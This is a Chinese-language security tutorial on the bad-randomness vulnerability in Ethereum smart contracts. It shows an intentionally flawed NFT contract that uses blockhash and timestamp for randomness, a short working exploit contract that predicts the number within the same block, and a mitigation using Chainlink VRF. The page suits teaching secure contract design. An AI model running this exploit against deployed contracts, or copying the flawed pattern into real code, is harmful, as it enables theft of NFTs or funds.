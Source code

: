 ```yaml
---
title: 随机性漏洞
displayed_sidebar: generalSidebar
keywords:
  - smart contracts
  - security
  - vulnerabilities
  - randomness
  - nft
  - gamefi
  - ethereum
  - solidity
  - pseudo-random
  - blockhash
  - keccak256
  - chainlink-vrf
tags:
  - 随机性漏洞
  - Security
  - 智能合约
---
```


# 随机性漏洞

## 伪随机数

以太坊上的许多应用程序，比如 NFT 随机 tokenId 抽奖、盲盒开启和 GameFi 战斗结果，都依赖于随机数。 然而，由于以太坊上的所有数据都是公开和确定性的，传统的随机生成方法如 `random()` 并不可用。

相反，项目通常使用伪随机数生成器，`blockhash()`和`keccak256()`。 这种方法被称为随机性漏洞（Bad Randomness Vulnerability），使攻击者能够预测结果，从而操纵结果，例如铸造特定的稀有 NFT。

这种漏洞在NFT和GameFi项目中很常见，包括Meebits, Loots, and Wolf Game。 它已经造成了重大的财务损失，比如 SmartBillions 彩票漏洞，攻击者利用可预测的结果赢得了超过 400 ETH。 更多信息请参阅文章, [区块链彩票被黑客攻击，损失12万美元](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/)。

## 随机性漏洞示例

我们来探讨一个存在漏洞的NFT合约，`FlawedRandomizer.sol`。

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

主函数`mintIfLucky()`要求用户输入一个`0-99`之间的数字。 如果与链生成的伪随机数 `pseudoRandomNumber`匹配，则可以铸造一枚幸运的NFT。 漏洞在于用户能够完全预测生成的随机数并铸造NFT。

我们编写一个攻击合约`Exploit.sol`。

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

函数`executeMint()` 以`FlawedRandomizer`合约地址为参数。 在这里，我们计算`predictedNumber`，然后将其传递到`mintIfLucky()` 函数来执行攻击。 由于在同一个区块中调用`executeMint()` 和 `mintIfLucky()`，`blockhash`和`block.timestamp`是相同的，因此可以预测生成的随机数字。

## 预防策略

使用Oracle项目提供的链下随机数来防止这种类型的漏洞，例如Chainlink VRF。 这些随机数是在链下生成的，并上传到区块链，确保它们是不可预测的。
